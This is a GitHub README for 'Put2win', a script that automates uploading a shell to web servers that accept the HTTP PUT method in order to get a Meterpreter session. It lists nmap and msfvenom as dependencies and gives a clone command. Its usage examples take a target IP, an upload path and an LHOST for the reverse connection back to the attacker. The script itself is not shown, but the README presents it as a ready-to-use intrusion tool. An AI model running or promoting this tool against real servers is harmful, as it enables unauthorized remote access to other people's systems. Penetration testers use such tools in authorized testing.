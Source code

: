 # Put2win
Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
git clone https://github.com/sysdevploit/put2win

# Usage
```
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
